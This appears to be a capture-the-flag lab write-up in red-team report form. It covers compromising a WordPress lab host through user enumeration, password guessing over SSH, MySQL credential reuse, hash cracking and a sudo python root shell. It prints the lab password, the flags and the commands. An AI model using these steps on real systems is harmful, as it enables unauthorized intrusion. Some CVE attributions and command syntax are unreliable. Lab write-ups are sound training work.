 **Red Team: Summary of Operations**


**Table of Contents**
- Exposed Services
- Critical Vulnerabilities
- Exploitation


**Exposed Services**

Nmap scan results for each machine reveal the below services and OS details:
`’’bash
$ nmap -sV 192.168.1.100/24


This scan identifies the services below as potential points of entry:
- Target 1
  - List of Exposed Ports/Services
22/tcp           open        SSH                OpenSSH
80/tcp           open        http               Apache
111/tcp          open        rpcbind            2-4
139/tcp          open        netbios-ssn        Samba
445/tcp          open        netbios-ssn        Samba

 
**List of Critical Vulnerabilities**

The following vulnerabilities were identified:

CVE-2014-0226 - allows remote attackers to cause a denial of service (heap-based buffer 
overflow), or possibly obtain sensitive credential information or execute arbitrary code. The first vulnerability allows hackers to potentially access sensitive information. With the scan that was used to find vulnerabilities it will also give the bad actor directories marked as interesting highlighting that there may be something of use in those directories.


CVE-2014-3503 - pertains to weak random values to generate passwords, which makes it easier for remote attackers to guess the password via a brute force attack. Password policies must be adhered to because many brute force attacks rely on simple password combinations to crack the account. Sometimes a brute force is not required as this user used their name as the password which is also unadvisable.


CVE-2000-0525 - OpenSSH does not properly drop privileges when the UseLogin option is enabled, which allows local users to execute arbitrary commands by providing the command to the ssh daemon. With an SSH connection that comes from an unknown IP address, the system can expose information that the hacker can further leverage to manipulate the system even more.

(Images/target1_vulnscan.jpg)


**Exploitation**


The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1`: flag1{b9bbcb33e11b80be759c4e844862482d}
     **Exploit Used**
      - viewed HTML source code
      - used Page inspect
      (Images/flag_1.jpg)

  

   - `flag2`: flag2{fc3fd58dcdad9ab23faca6e9a36e581c}
      **Exploit Used**
      - Used wpscan to enumerate users from the wordpress site, giving us target to exploit
      - by guessing a user password, an SSH connection was made to the web server
      - flag was found in the /var/www directory
Commands        -wpscan --url http://192.168.1.110/wordpress --enumerate u
                      - ssh michael@192.168.1.110
                      - cat flag2.txt
                      (Images/flag_2.jpg)

    -  ‘flag3’: flag3{afc01ab56b50591e7dccf93122770cd2}
       **Exploit Used**
        - mySQL database config file was leveraged to find root user access to mySQL database
        - through investigation, SQL queries were made to find password hashes for Wordpress users
        - flag found in the table
Commands        - mysql -u root -p ‘R@v3nSecurity’
                        - show databases; use wordpress; show tables; select * from wp_posts;
                        (Images/flag_3.jpg)


     -   ‘flag4’: flag4{715dea6c055b9fe3337544932f2941ce}
          **Exploit Used**
          - through mySQL infiltration, found another user to use as opportunity to get to root user
          - used john the ripper on the password hashes collected from mySQL database
          - found password for other user and connected via SSH
          - this user can run python commands with sudo
          - root system OS must be leveraged to gain root access
          - flag found in home directory for root user
Commands        - john wp_hashes.txt -wordlist=rockyou.txt
                         - ssh steven@192.168.1.110
                          - sudo python, import os, os.system(“/bin/bash”)
                          - cat flag4.txt
                          (Images/flag_4.jpg)
